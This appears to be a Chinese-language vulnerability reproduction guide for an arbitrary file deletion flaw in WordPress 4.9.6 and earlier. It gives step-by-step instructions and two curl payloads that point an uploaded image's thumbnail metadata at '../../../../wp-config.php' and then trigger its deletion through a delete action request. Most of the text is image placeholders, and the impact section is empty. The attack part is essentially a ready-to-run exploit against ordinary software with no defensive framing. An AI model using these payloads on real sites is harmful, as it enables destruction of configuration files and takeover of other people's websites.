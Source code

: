 Wordpress \<= 4.9.6 任意文件删除漏洞
====================================

一、漏洞简介
------------

利用条件L：需要进入后台

二、漏洞影响
------------

三、复现过程
------------

### 添加新媒体

访问[http://0-sec.org/wp-admin/upload.php，然后上传图片。](http://0-sec.org/wp-admin/upload.php，然后上传图片。)

![](./.resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId26.png)

### 将\$ meta \[\'thumb\'\]设置为我们要删除的文件

#### 单击我们在中上传的图像Step 2，并记住图像的ID。

![](./.resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId29.png)

#### 访问[http://0-sec.org/wp-admin/post.php?post=4&action=edit.\_wpnonce在页面源中查找](http://0-sec.org/wp-admin/post.php?post=4&action=edit._wpnonce在页面源中查找)

![](./.resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId32.png)

#### 发送有效载荷：

    curl -v 'http://0-sec.org/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=editattachment&_wpnonce=***&thumb=../../../../wp-config.php'

![](./.resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId34.png)

### 发动攻击

#### 在页面源码中查找 \_wpnonce

![](./.resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId37.png)

#### 发送有效载荷

    curl -v 'http://9c9b.vsplate.me/wp-admin/post.php?post=4' -H 'Cookie: ***' -d 'action=delete&_wpnonce=***'

![](./.resource/Wordpress<=4.9.6任意文件删除漏洞/media/rId39.png)

#### 刷新页面

image
